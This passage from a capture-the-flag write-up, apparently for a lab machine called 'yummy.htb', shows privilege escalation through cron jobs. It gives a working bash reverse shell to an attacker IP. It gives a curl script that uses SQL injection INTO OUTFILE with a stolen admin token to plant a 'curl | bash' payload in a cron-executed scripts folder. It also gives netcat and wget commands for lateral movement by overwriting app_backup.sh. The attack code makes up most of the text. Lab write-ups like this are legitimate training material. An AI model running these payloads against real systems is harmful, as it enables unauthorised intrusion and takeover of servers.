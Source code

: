 If the file `dbstatus.json` exists and does not conain the string "database is down" then it runs a command with `/bin/bash`, afterwards it deletes the JSON file. This script is ran every minute. The `latest_version` variable lists the contents of the scripts folder with a wildcard. This script will sort all scripts starting with `fixer-v` and executes the last matching script (tail). Since we can write files via the SQL injection vulnerability, we can get a reverse shell.

First we create a reverse shell script and run a Python web server.

```console
$ echo "#\!/bin/bash\nbash -i >& /dev/tcp/10.10.14.102/9001 0>&1" > shell.sh
$ chmod +x shell.sh
$ sudo python -m http.server 80
```

We create a small script that automates the exploitation. It first grabs our payload, writes it to `/data/scripts/fixer-v999` and then writes an empty string to `/data/scripts/dbstatus.json` in order to execute our payload.

```bash
ip="10.10.14.102"
token="<ADMIN_JWT_TOKEN>"

write_file() {
  curl -s -H "Cookie: X-AUTH-Token=$token" "http://yummy.htb/admindashboard?s=ABC&o=ASC;select+\"$1\"+INTO+OUTFILE+'$2';"
}

# write a file to request the reverse shell and execute it with bash
write_file "curl+$ip/shell.sh+|bash" "/data/scripts/fixer-v999"

# write an empty file to dbstatus.json
write_file "" "/data/scripts/dbstatus.json"
```

We start a netcat listener on port 9001, run the above script and after a minute we should have received a connection back to our machine.

```console
$ nc -nvlp 9001
mysql@yummy:/var/spool/cron$
```

## User
### Mysql to www-data
After getting a shell as the `mysql` we still have very limited access. We can move laterally to the `www-data` user since there is also a script (`app_backup.sh`) that runs every minute by this user. We are able to remove the backup file and replace it with the same reverse shell script.

```console
mysql@yummy:/var/spool/cron$ cd /data/scripts
mysql@yummy:/data/scripts$ wget http://10.10.14.102/shell.sh
mysql@yummy:/data/scripts$ rm app_backup.sh
mysql@yummy:/data/scripts$ mv shell.sh app_backup.sh
```
